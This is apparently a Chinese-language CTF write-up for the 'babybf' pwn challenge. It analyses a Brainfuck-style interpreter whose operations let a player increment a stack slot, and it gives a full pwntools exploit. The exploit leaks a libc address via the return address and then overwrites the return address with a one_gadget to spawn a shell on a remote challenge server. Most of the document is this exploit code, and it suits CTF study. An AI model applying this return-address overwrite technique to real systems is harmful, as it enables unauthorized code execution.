 # babybf  
### 题目分析
保护全开，输入数字开辟堆，往堆里输内容，第一眼让人觉得是堆题，但其实是栈。  
![](./pics/body.png)  
输入的内容会根据数组0x2020进行处理，以dw打开这段地方，发现是大量数字。  
![](./pics/0x2020.png)  
输入的每一个字节都会根据这个数组替换成对应的0-9的数字。  
并且依次对应这些数字按序完成对应函数的操作。  
其中比较重要的函数有以下几个：  
![](./pics/fun1.png)  
![](./pics/fun3.png)  
![](./pics/fun4.png)  
![](./pics/fun5.png)  
![](./pics/fun7.png)  
![](./pics/fun9.png)  
其余几个函数较为复杂且我最后也没用到  
进入这些函数后栈里长这样。  
![](./pics/stack.png)  
其中红框即为rbp-0xa8，也就是说可以通过控制这个字段进行各种操作。  

    对应值  输入数  操作
    0       \x3c    
    1       \x3e    ++*
    2       \x2b    ++**
    3       \x2d    --**
    4       \x2e    putchar
    5       \x2c    getchar
    6       \x5b    
    7       \x5d    
    8       \x00    free
    9       \x01    
上述对应不唯一。  
发现对该字段的操作只能使其对应的值越来越大，泄露libc后无法返回，因此考虑先更改rbp下面的返回地址，并获得libc，返回后第二次进去该函数时就能把rbp后改为one_gadget了。  
### 完整exp
```
from pwn import *
"""
    0   \x3c    
    1   \x3e    ++*
    2   \x2b    ++**
    3   \x2d    --**
    4   \x2e    putchar
    5   \x2c    getchar
    6   \x5b    
    7   \x5d    
    8   \x00    free
    9   \x01    
"""
# p=process('./chall')
p=remote("47.108.29.107",10116)
pause()
elf = context.binary = ELF("./chall")
libc = elf.libc
context.log_level = 'debug'
container=b"\x3c\x3e\x2b\x2d\x2e\x2c\x5b\x5d\x00\x01"
one_gadget=0x4f302
def play(size,content):
    p.sendlineafter(b'len> ',str(size).encode())
    p.sendlineafter(b'code> ',content)
def getpayload(ops):
    payload=b""
    for i in ops:
        payload+=p8(container[ord(i)-ord('0')])
    return payload
# gdb.attach(p,'b *$rebase(0x16F4)')
# gdb.attach(p,'b *$rebase(0x195c)')
# gdb.attach(p,'b getchar')
play(0x500,getpayload("11111111"+"11111111"+"11111111"+"11111111"+"11111111"+"11111111"+"11111111"+"59"+"11111111"+"11111111"+"11111111"+"11111111"+"41414141414"+"111"+"3"+"7"+"5"))
# pause()
context.log_level = 'debug'
pause()

p.send(b'\xab')
pause()
__libc_start_main=u64(p.recv(6).ljust(8,b"\x00"))-231
print(hex(__libc_start_main))
libc_base=__libc_start_main-libc.sym.__libc_start_main
print(hex(libc_base))
print(hex(libc_base+one_gadget))
p.sendline(b'')
pause()
# gdb.attach(p,'b *$rebase(0x195c)')
play(0x500,getpayload("11111111"+"11111111"+"11111111"+"11111111"+"11111111"+"11111111"+"11111111"+"5151515151519"))
p.sendline(p64(libc_base+one_gadget))

p.interactive()
```